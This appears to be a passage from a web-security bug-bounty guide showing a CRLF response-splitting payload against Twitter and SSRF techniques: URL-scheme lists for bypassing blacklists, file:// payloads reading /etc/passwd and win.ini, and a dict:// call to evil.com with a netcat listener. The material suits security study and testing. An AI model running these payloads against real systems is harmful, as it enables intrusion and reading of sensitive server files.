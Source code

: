 [**TWITTER HTTP RESPONSE SPLITTING**](https://hackerone.com/reports/52042/)

The attacker used special chinese characters because the website was protected agains CRLF injection. The attack allowed to set a extra cookie. this is the following URL
```
# Encoded URL
https://twitter.com/i/safety/report_story?next_view=report_story_start&source=reporttweet&reported_user_id=1&reporter_user_id=1&is_media=true&is_promoted=true&reported_tweet_id=%E5%98%8A%E5%98%8DSet-Cookie:%20test

# Decoded URL 
https://twitter.com/i/safety/report_story?next_view=report_story_start&source=reporttweet&reported_user_id=1&reporter_user_id=1&is_media=true&is_promoted=true&reported_tweet_id=嘊嘍Set-Cookie: test
```

Besides this, he look out for way to escalate the attack to XSS. 

## Testing for URL Schema if you found a SSRF

[Rajesh Ranjan](https://twitter.com/eh_rajesh) has brought different ways to experiment and exploit SSRF vulnerabilities. The first thing to do when we find an SSRF is to test all the wrapper which are working, if the server blocks one wrapper, go and try another. if it’s your lucky day you might find one wrapper not blacklisted. There are some URL schema, for which you can test when you found an SSRF, such as the following:

```
file:///
dict://
sftp://
ldap://
tftp://
gopher://
```
### ```file://```
File is used to fetch a file from the file system. Look at the following examples:
```
http://example.com/ssrf.php?url=file:///etc/passwd (For Linux) 
http://example.com/ssrf.php?url=file:///C:/Windows/win.ini (For windows)
```

### ``` dict://```
DICT URL scheme is used to refer to definitions or word lists available using the DICT protocol. Look at the following examples:
```
http://example.com/ssrf.php?dict://evil.com:1337/ 
```
From the URL above, the attacker create a listener which will result with a connection if successful. 

```bash
evil.com:$ nc -lvp 1337
Connection from [192.168.0.12] port 1337 [tcp/*] accepted (family 2, sport 31126)
CLIENT libcurl 7.40.0 </code>
```
[Reference](https://en.wikipedia.org/wiki/DICT)
